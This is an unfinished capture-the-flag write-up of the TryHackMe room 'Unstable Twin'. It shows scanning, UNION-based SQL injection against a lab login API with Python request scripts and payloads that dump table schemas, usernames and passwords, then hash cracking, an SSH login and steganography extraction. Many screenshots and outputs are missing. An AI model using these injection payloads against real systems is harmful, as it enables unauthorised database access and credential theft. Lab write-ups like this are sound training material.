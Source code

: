 ***STILL N THE WORKS!***

Room: [Unstable Twin](https://tryhackme.com/room/unstabletwin)

Difficulty: Medium

Overview:



-------------------------------------------------------------------------------------------------------------------------------------------------------------------

First we will start off our target enumeration by doing "Nmap" scan:

nmap -sV -sC -A -p- 10.10.121.127 -oN nmap.txt -T4

10.10.121.127 - room ip address

![nmap](https://user-images.githubusercontent.com/76821053/119569292-74feab80-bda6-11eb-94d8-abcdc12f2fa0.png)

There are two ports open:

22    →  OpenSSH 8.0

53    →  http server nginx 1.14.1

Lets check for hidden directories with a "Gobuster" scan:

![gobuster](https://user-images.githubusercontent.com/76821053/119570948-a8dad080-bda8-11eb-9959-bbf3511f6684.png)

The website doesn't have anything..

![emptyweb](https://user-images.githubusercontent.com/76821053/119571098-d9bb0580-bda8-11eb-8dfe-9c5d55e7122c.png)

It is empty, besides the /info directory i found with gobuster:

![webinfo](https://user-images.githubusercontent.com/76821053/119571268-0d962b00-bda9-11eb-9135-8e63697dd282.png)

Using "curl" we will try to get more information from the http headers:

![curlxget](https://user-images.githubusercontent.com/76821053/119571524-5a7a0180-bda9-11eb-8536-6795514063ec.png)



Found the build version number for Vincent server:



Since there was a json file in the directory i did a GET request with option -H to accept application/json:



Found a new build number and a new server name.



Now i know that this server is vulnerable to sql injection, i need to find a way point to exploit it.

The server talks about “login API” so i try to see if there is anykind of vulnerability there:

 
 
 Know i know that i can reach /api/login and that if i ran the command 2 times it gives me different ouputs. Meaning that there is 2 servers probably and they read from diferent builds 1.3.4-dev and 1.3.6-final.

To start testing for vulnerabilities i wrote a simple python script:

Payloadallthethings:



I started editing the script doing:

1' UNION SELECT 1--+ '"
1' UNION SELECT 1,2--+ '"
1' UNION SELECT 1,2,3--+ '"
1' UNION SELECT 1,2,3,4--+ '"

till i got some kind of response from the server.. even dough the server was not ouputing errors and i found something.


import requests

payload = "1' UNION SELECT 1,2--+ '"
url = ' http://unstabletwin.thm/api/login'

data = {"username": payload , "password": 12345}
r = requests.post(url, data)
print(r.text)



I ran the script and got a call back:



Again i had to run the script twice, because there is 2 servers.

So i found that the server has 2 tables. Now i need to know what is their names.

From payloadallthethings sqlite injection:



To find version of mysql:



I need to modify 



To display the names of the tables i used the Integer/string based - Extract table name from payloadall..

import requests

payload = ["1' UNION SELECT 1, tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'--+ '"]
url = ' http://unstabletwin.thm/api/login'

data = {"username": payload , "password": 12345}

for i in payload:
        r = requests.post(url, data)
        print(r.text)
        r = requests.post(url, data)
        print(r.text)
        
        
When i combine the new string injection i needed to had number 1, like so:

original: 

SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'

altered separated by a “,” :

SELECT 1, tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'

merged strings like so:

1' UNION SELECT 1, tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'--+ '


I also created a for loop to make the request two times, so in don't have to rerun the script . 
 
 



Now to read the contents of the tables i will again modify the script and to be able to read the columns:



I modified the string like so:

original:

SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'

merged:

1' UNION SELECT 1, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users'--+ '

Added the 1, and substitute the ‘table_name’ for the users which was the 1 table name






With this information i can now reach its contents.

To list users and passwords:

UNION SELECT username, password FROM users

then merged in the script:

1' UNION SELECT username, password FROM users--+








Now the same process to read the contents of "notes":

original:

SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='table_name'

merged:

1' UNION SELECT 1, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='notes'--+





To extract information:

string:

SELECT notes FROM notes

merged:

1' UNION SELECT 1, notes FROM notes--+





Found a password:

eaf0651dabef9c7de8a70843030924d335a2a8ff5fd1b13c4cb099e66efe25ecaa607c4b7dd99c43b0c01af669c90fd6a14933422cf984324f645b84427343f4

I used hash-identifier:



I used john the ripper to decrypt the hash:



i could also use crackstation.net to do this:



Password: experiment

Now that i have a password i will use ssh to connect to the target machine.

I assume that the user that has this password is mary_ann, because when i was enumerating the server mary_ann didn't had a colour but instead a ..continue..



I ran linpeas, did manual enumeration and only found a clue:



the content of server_notes.txt:



The api must have more information hidden so i used curl to try and download the images hinted on the message:

curl -v http://unstabletwin.thm/get_image?name=vincent --output vincent.jpg 












I did this command for every user and downloaded all the files in .jpg format.

example images:



Since they were all images i used steghide to see if there was any hidden content and i was right:



I read the contents of each extracted files:



There was a tip about arranging the children by the colours of the rainbow.



So i merged a big string from contents of each extracted file in rainbow colour order from red to green:

1DVsdb2uEE0k5HK4GAIZPS0Mby2jomUKLjvQ4OSwjKLNAAeCdl2J8BCRuXVXeVYvs6J6HKpZWPG8pfeHoNG1

I tried many different decoders till i find the right one at https://gchq.github.io/CyberChef/:



The string was base62.

